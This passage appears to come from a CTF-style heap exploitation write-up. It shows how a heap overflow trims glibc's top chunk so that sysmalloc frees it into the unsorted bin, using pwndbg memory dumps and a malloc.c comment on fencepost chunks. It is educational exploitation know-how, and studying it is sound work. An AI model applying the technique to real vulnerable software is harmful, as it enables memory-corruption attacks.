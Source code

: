The more keen-eyed readers might have already observed that a simple way to trim the size while mantaining its validity, is to simply trim off everything except the last 3 nibbles e.g. `0x20d51 -> 0xd51`. Since `0xd51` is less than the max allowed allocation size of `0x1000`, we can request that much memory at one go. So let's try that and see what happens.

```
0x56176779e290  0x0000000000000000      0x0000000000000021      ........!.......
0x56176779e2a0  0x6161616261616161      0x6161616461616163      aaaabaaacaaadaaa
0x56176779e2b0  0x6161616661616165      0x0000000000000d51      eaaafaaaQ.......         <-- Top chunk
```

We start off by using our heap overflow bug to trim the top chunk size. Now let's request for a chunk of size `0xd50`. Although the top chunk size is `0xd50`, it will be unable to service this request. The reason for this will become apparent after we observe what happens next.

```
0x56176779e290  0x0000000000000000      0x0000000000000021      ........!.......
0x56176779e2a0  0x6161616261616161      0x6161616461616163      aaaabaaacaaadaaa
0x56176779e2b0  0x6161616661616165      0x0000000000000d31      eaaafaaa1.......         <-- unsortedbin[all][0]
0x56176779e2c0  0x00007f1cda12fbe0      0x00007f1cda12fbe0      ................
0x56176779e2d0  0x0000000000000000      0x0000000000000000      ................
0x56176779e2e0  0x0000000000000000      0x0000000000000000      ................

---------------------------------TRUNCATED--------------------------------------

0x56176779efd0  0x0000000000000000      0x0000000000000000      ................
0x56176779efe0  0x0000000000000d30      0x0000000000000010      0...............
0x56176779eff0  0x0000000000000000      0x0000000000000011      ................
```

We note that after the allocation, there are 3 new chunks created from the free space of `0xd50`. We have one `0xd30` sized chunk (that has been linked into unsortedbins), and two `0x10` sized chunks. What are these `0x10` sized chunks? Once again, let's consult the glibc source.

```c
# Snippet from glibc 2.31 source malloc/malloc.c

/*
  If not the first time through, we either have a
  gap due to foreign sbrk or a non-contiguous region.  Insert a
  double fencepost at old_top to prevent consolidation with space
  we don't own. These fenceposts are artificial chunks that are
  marked as inuse and are in any case too small to use.  We need
  two to make sizes and alignments work out.
 */
```

As seen from the [above comment](https://elixir.bootlin.com/glibc/glibc-2.31/source/malloc/malloc.c#L2665), `sysmalloc` will insert two fencepost chunks at the old_top to prevent consolidation. The two `0x10` sized chunks that we observed are fencepost chunks.

What about the `0xd50` size chunk that we requested for?

```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x56176779e000
Size: 0x291

Allocated chunk | PREV_INUSE
Addr: 0x56176779e290
Size: 0x21

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x56176779e2b0
Size: 0xd31
fd: 0x7f1cda12fbe0
```